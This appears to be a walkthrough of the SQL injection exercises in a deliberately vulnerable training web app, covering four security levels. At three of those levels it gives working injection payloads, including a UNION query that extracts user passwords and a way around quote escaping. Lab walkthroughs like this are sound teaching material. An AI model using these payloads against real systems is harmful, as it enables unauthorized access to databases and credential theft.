 # SQL Injection

The input of the user is used to directly construct a SQL statement.


## Low
No check at all, simply use the following snippet to list all users:
```bash
# list all users
' or 1=1 -- 
# show passwords of users
' or 1=1 UNION SELECT first_name, password FROM users -- 
```

## Medium
The SQL injection is now triggered via POST request.
Additionally, the server uses the php function `mysql_real_escape_string()` to escape the input.
This function escapes the following characters: `\x00, \n, \r, \, ', " and \x1a`.
This can be bypassed by using the following payload, because the SQL query does not contain quotes:
```bash
2 or 1=1 -- 
2 or 1=1 UNION SELECT first_name, password FROM users -- 
```


## High
The server offers a second web page, where the logged-in user can specify a user id.
This user id is stored in the session of the logged-in user.
If the user visits the page `http://10.10.61.182/vulnerabilities/sqli/`, the server will load the user id from the session and use it in the SQL query.
This allows us to inject SQL code into the user id, which will be executed by the server:
```bash
' or 1=1 -- 
```


## Impossible
The server uses prepared statements to construct the SQL query.
This prevents the user input from being interpreted as SQL code.